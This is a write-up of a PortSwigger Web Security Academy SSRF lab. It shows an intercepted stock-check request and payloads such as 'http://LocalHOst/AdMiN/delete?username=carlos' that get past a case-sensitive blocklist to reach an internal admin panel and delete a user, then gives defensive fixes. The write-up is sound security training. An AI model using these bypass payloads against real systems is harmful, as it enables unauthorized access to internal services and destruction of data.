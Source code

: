 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`Case-Insensitive Bypass`)

---

> The `SSRF` vulnerability is contained in the `check stock` function which fetches data from an `internal system`:

![stock_check_function](./screenshots/stock_check_function.png)

---
## 🔍 Request interception

> The first thing we do - is intercept the `check stock` function request and send it to the `repeater` of the `BurpSuite` tool:

```html 

POST /product/stock HTTP/2
Host: 0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Cookie: session=0Y0d9JLcHWAp6DegCuNPjTd0jINxBfJD
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

```

> For ease of working with the request body in URL encoding, I use the `Hackvertor` extension:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1</@urlencode>

```

> The `check stock` function makes a request to the resource `stock.weliketoshop.net:8080` using the route `/product/stock/check`, which executes the function to check the
> availability of the product (`productId`) in the selected location (`storeId`).

> The developers on the server side have implemented some protection against `SSRF attacks` which filters requests to internal system resources in the event of a request address being spoofed.

> If I try to replace the request with `http://localhost` I get the standard error:

```bash

stockApi=<@urlencode>http://localhost</@urlencode>

```

> Result:

![localhost_error](./screenshots/localhost_error.png)

> The essence of the current protection is to filter such phrases in the request as `localhost`, `admin`, etc. The only problem is that this filter does not take into account
> the case of characters, which means that I can try to `change the case` of some characters in the word `localhost` to `LocalHOst` for example and send a request to the server:

```bash

stockApi=<@urlencode>http://LocalHOst</@urlencode>

```

> Result:

![LocalHOst_answer](./screenshots/LocalHOst_answer.png)

> Filter bypass with case-shifting worked. The server returned a response with code 200 and results in the form of an HTML page. Nice.

> Next we need to get to the administrator interface which is located at the path `/admin`. To do this, by analogy, I change the case of the characters in the word `admin` to `AdMiN` and try to send a request:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN</@urlencode>

```

> Result:

![AdMiN_answer](./screenshots/AdMiN_answer.png)

![admin_panel](./screenshots/admin_panel.png)

> The server returned a response with the code `200` again. Bypassing the server's security features by changing the case of characters in the request worked.
> I got access to the `admin panel`.

---

> To solve this lab you need to send a request to delete the user `carlos`:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN/delete?username=carlos</@urlencode>

```

> Result:
![solved_lab](./screenshots/solved_lab.png)

> Lab complete.

---
## 🧠 Conclusion

> To protect against such SSRF attack techniques with filter bypassing you can do the following:

> `1)` Before comparing incoming requests bring the URLs to the same type - `URL normalization`.
> Example in python:

```python

urllib.parse.urlparse(user_input_url.lower())

```
> `2)` Use `DNS resolving` with IP address checking. That is, perform a recursive request by domain name and check the received IP address with `whitelist`

> `3)` Prohibit any requests to internal local system resources by isolating the network.
